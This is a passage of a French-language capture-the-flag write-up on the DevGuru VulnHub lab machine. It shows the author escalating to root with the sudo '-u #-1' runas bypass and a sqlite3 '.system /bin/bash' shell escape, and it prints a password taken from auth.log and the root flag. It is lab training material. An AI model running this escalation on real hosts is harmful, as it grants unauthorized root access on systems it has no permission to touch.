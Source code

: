 ```plain
frank@devguru:~$ ls -ld /data/backups/ 
drwx------ 2 998 root 4096 Nov 18  2020 /data/backups/

frank@devguru:~$ sudo -u \#998 /usr/bin/sqlite3 
SQLite version 3.22.0 2018-01-22 18:45:57 
Enter ".help" for usage hints. 
Connected to a transient in-memory database. 
Use ".open FILENAME" to reopen on a persistent database. 
sqlite> .system ls /data/backups -al 
total 8 
drwx------  2  998 root 4096 Nov 18  2020 . 
drwxr-xr-x 20 root root 4096 Nov 18  2020 ..
```

Il y avait d'autres dossiers mais rien d'intéressant. J'ai ensuite regardé l'utilisateur *syslog* car il dispose de droits sur */var/log/auth.log*. J'ai juste trouvé ceci :  

```plain
Nov 19 02:27:34 corp sudo:    frank : TTY=pts/0 ; PWD=/root ; USER=root ;
    COMMAND=/usr/local/bin/gitea admin create-user --username frank --password 52QCem2uwtGLHEVQ --email frank@corp.local -c /etc/gitea/app.ini
```

Heureusement je me rappelais vaguement d'une faille pour sudo ou sudoedit [où l'on passait un ID d'utilisateur amusant](https://www.exploit-db.com/exploits/47502).  

En regardant la description de l'exploit on comprends qu'il s'agit exactement de cette situation, c'est donc la solution attendue :  

```plain
frank@devguru:~$ sudo -u \#-1 /usr/bin/sqlite3   
SQLite version 3.22.0 2018-01-22 18:45:57 
Enter ".help" for usage hints. 
Connected to a transient in-memory database. 
Use ".open FILENAME" to reopen on a persistent database. 
sqlite> .system /bin/bash 
root@devguru:~# id 
uid=0(root) gid=1000(frank) groups=1000(frank) 
root@devguru:~# cd /root 
root@devguru:/root# ls 
msg.txt  root.txt 
root@devguru:/root# cat root.txt 
96440606fb88aa7497cde5a8e68daf8f 
root@devguru:/root# cat msg.txt 

           Congrats on rooting DevGuru! 
  Contact me via Twitter @zayotic to give feedback!
```

Vous pouvez aussi lire [cet article](https://www.hackingarticles.in/devguru-1-vulnhub-walkthrough/) pour une résolution un peu différente (Markup October + Hooks Gitea à la main)  


*Published February 02 2022 at 18:03*
